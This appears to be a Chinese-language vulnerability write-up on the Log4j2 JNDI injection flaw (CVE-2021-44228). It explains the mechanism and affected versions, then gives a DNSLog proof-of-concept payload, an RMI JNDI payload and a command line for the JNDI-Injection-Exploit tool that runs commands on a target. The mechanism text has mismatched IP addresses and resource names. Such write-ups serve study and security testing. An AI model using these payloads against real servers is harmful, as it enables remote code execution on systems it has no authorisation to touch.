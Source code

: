 # Log4j2远程代码执行漏洞(cve-2021-44228)

------

## 描述

Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j  框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。  在大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。攻击者利用此特性可通过该漏洞构造特殊的数据请求包，最终触发远程代码执行。

log4j2中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞。成功利用该漏洞可在目标服务器上执行任意代码。

------

## 原理概述

```
当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中
假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/exp}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/exp
解析到ldap，就会去192.168.61.129:1099的ldap服务找名为shell的资源，如果找不到就会去http服务中找
在http中找到shell之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现shell是一个.class文件，就会去执行里面的代码，从而实现注入
攻击者就可以通过shell实现任意的命令执行，造成严重危害
```

## 影响

```
Apache Log4j 2.x <= 2.14.1
```

------

## 名词介绍

### JNDI

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。

例子：

​	通过原始的JDBC来连接数据库，我们可以选择在代码中直接写入数据库的连接参数，但一旦数据源发生变更，我们就势必要改动代码后重新编译才能连接新的数据源。而如果我们将数据库连接参数改成外部配置的方式，那么也就实现了配置和代码之间的解耦。JNDI规范本质上就是上述的这种操作。

JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务。

### LDAP

轻型目录访问协议（Lightweight Directory Access Protocol，是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。

### RMI

RMI (Remote Method Invocation) 模型是一种分布式对象应用，使用 RMI 技术可以使一个 JVM 中的对象，调用另一个 JVM 中的对象方法并获取调用结果。这里的另一个 JVM 可以在同一台计算机也可以是远程计算机。因此，RMI 意味着需要一个 Server 端和一个 Client 端。

## poc

通过DNSLog验证

```
playload:${jndi:ldap://xxxxxx.dnslog.cn}

如果是get请求需要进行url编码
```

## exp

通过*JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar*这个工具实现

```
通过 java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "命令" -A 服务器ip 运行jar包
```

```
playload:${jndi:rmi://ip:port/exp}
```

具体用法详见利用工具中README-CN.md




